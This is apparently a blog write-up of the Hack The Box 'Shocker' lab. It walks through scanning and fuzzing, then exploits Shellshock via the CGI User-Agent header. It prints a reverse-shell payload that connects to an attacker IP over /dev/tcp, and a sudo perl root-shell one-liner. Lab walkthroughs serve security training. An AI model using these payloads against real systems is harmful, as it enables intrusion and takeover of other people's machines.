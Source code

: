 ```yaml
---
title: "Shocker"
date: 2023-06-24T23:12:03+02:00
tags: ["privesc","web","linux"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Linux machine with Shellshock bash remote code execution vulnerability."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Shocker
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Shocker

![Untitled](/HTB/shocker-icon.png)

## Tools Used

- Nmap
- Gobuster
- Burpsuite

## Port Scanning

We can find two service up and running one web server in the port 80 and a ssh in port 2222

![Untitled](/HTB/shocker-1.png)

## Enumeration

If we visit the page we find a basic page with a basic html with only a picture.

![Untitled](/HTB/shocker-2.png)

![Untitled](/HTB/shocker-3.png)

When I tried to fuzz the directories of the website, I found that gobuster doesn’t found anything and after several tests i realized that the website only recognize directories adding “/” at the end of the URL.

![Untitled](/HTB/shocker-4.png)

![Untitled](/HTB/shocker-5.png)

Thanks to the error message of the website, it is observed that when no slash is added, a "not found" page is returned. In this example, the "cgi-bin" directory is tested. "cgi-bin" is specifically tested because the name of the machine gives a clue that it is likely vulnerable to the Shellshock Bash remote code execution vulnerability, which affects web servers utilizing CGI (Common Gateway Interface).

![Untitled](/HTB/shocker-6.png)

A quick fuzzing with the flag "-f" in Gobuster is performed, forcing the slash at the end of the URL. Three directories are discovered. Now, the "/cgi-bin/" directory is fuzzed to search for any interesting file such as .php, .py, .html, .js, or .sh. In this case, the "-f" flag is not used because files are being searched for.

![Untitled](/HTB/shocker-7.png)

We find a file named [user.sh](http://user.sh), lets open it

![Untitled](/HTB/shocker-8.png)

Upon opening it, it is revealed that the file is actually [test.sh](http://test.sh) file

Now let’s focus on the Shellshock vulnerability, the basis of this vuln is to edit the http request to modify the User-Agent to “() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/1234 0>&1” we can do that with burp and allows us with a listening port to have a reverse shell. 

I got all the information about Shellshock here: https://ethicalhackingguru.com/how-to-exploit-the-shellshock-vulnerability/

![Untitled](/HTB/shocker-9.png)

![Untitled](/HTB/shocker-10.png)

## Gaining an Initial Foothold

Once in the home of the pwned user shelly we can see a user.txt which has the flag

![Untitled](/HTB/shocker-11.png)

![Untitled](/HTB/shocker-12.png)

## Privilege Escalation

Now we are in let’s elevate privilege

![Untitled](/HTB/shocker-13.png)

We can see with the sudo -l that we can use perl with root privilegies without any password, let’s take this advantage to pawn the system.

If we check in [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/perl/#sudo) we can use `sudo perl -e 'exec "/bin/sh";'` to escalate privilege.

![Untitled](/HTB/shocker-14.png)

![Untitled](/HTB/shocker-15.png)

## Lessons Learned

- What did you learn from the room?
    
    Now we have learned how to exploit the Shellshock vulnerability to gain remote code execution and how to use sudo permissions to escalate privileges.
    
- Were there any new tools or techniques used?
    
    The use of the flag -f in gobuster for directory fuzzing.

**Thank you for reading, and happy hacking! 😄**